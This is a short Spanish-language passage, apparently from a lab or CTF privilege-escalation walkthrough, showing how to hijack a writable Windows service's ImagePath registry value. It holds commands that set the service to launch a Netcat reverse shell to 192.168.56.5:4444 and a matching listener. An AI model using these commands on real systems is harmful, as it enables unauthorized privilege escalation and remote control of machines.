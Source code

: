 Podemos abusar de esto usando el cmdlet de PowerShell. `Set-ItemProperty` para cambiar el valor de `ImagePath`, usando un comando como:

```powershell-session
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\regsvc -Name "ImagePath" -Value "C:\Temp\nc.exe -e cmd.exe 192.168.56.5 4444"
```

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d [C:\Temp\privesc.exe] /f
```

###### Nos ponemos en escucha con Netcat
```bash
rlwrap nc -lnvp 4444
```

###### Detemenos e Iniciamos el servicio



[MS02]: PS C:\Users\elliot\Documents>